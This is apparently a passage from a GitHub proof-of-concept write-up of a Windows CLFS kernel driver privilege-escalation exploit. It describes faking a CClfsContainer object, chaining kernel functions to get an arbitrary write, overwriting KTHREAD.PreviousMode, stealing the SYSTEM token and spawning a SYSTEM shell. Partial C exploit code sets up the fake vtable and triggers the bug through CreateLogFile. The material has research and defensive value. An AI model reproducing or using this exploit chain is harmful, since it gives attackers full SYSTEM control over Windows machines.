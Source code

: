 --- Driver execution ---
* Doing the above dereferences the malicious `CClfsContainer` object at a user controlled address.
* This calls `nt!PoFxProcessorNotification` which redirects the execution flow to `nt!DbgkpTriageDumpRestoreState` which is used to obtain arbitrary 8 byte write.
* Use this primitive to overwrite the `_KTHREAD.PreviousMode` of the current thread to 0 (kernelmode), granting us arbitrary read/write primitives to the whole address space using NtReadVirtualMemory() and NtWriteVirtualMemory().

--- POC execution ---
* POC can now read and copy the system `_EPROCESS.Token` using a series of call to `NtReadVirtualMemory()/NtWriteVirtualMemory()` and plant it into our current process, giving our user mode POC the same privileges as the system process.
* Spawn a cmd shell with system privileges.

In depth analysis of the chained exploit has been performed and documented below.
POC code:
```
...
pcclfscontainer = VirtualAlloc(0x2100000, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
memset(pcclfscontainer, 0, 0x1000);

vtable = pcclfscontainer + 0x100;
rcx = pcclfscontainer;    //0x2100000

*(rcx + 0x40) = pcclfscontainer + 0x200;
*(pcclfscontainer + 0x200 + 0x68) = KernelBase + offset_nt!DbgkpTriageDumpRestoreState;

//location of arguments to pass to nt!DbgkpTriageDumpRestoreState
*(rcx + 0x48) = pcclfscontainer + 0x300;
arg_nt!DbgkpTriageDumpRestoreState = pcclfscontainer + 0x300;

//address of arbitrary write of nt!DbgkpTriageDumpRestoreState. It writes at offset 0x2078
*(arg_nt!DbgkpTriageDumpRestoreState) = AddressOfUserThread + offset_KTHREAD.PreviousMode - 0x2078;

//value of arbitrary write of nt!DbgkpTriageDumpRestoreState
*(arg_nt!DbgkpTriageDumpRestoreState + 0x10) = 0x0;    //KernelMode

//[1] is the offset of the Release() function found in the vtable pointed to by pContainer
vtable[1] = KernelBase + offset_nt!PoFxProcessorNotification;
*pcclfscontainer = vtable;

//trigger vulnerability after preparing addresses
logHndl = CreateLogFile(logFileName.c_str(),
    GENERIC_WRITE | GENERIC_READ,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,
    OPEN_ALWAYS,
    0);
...
//swap user process _EPROCESS.Token with system process
//restore _KTHREAD.PreviousMode to UserMode
//spawn system cmd shell
```
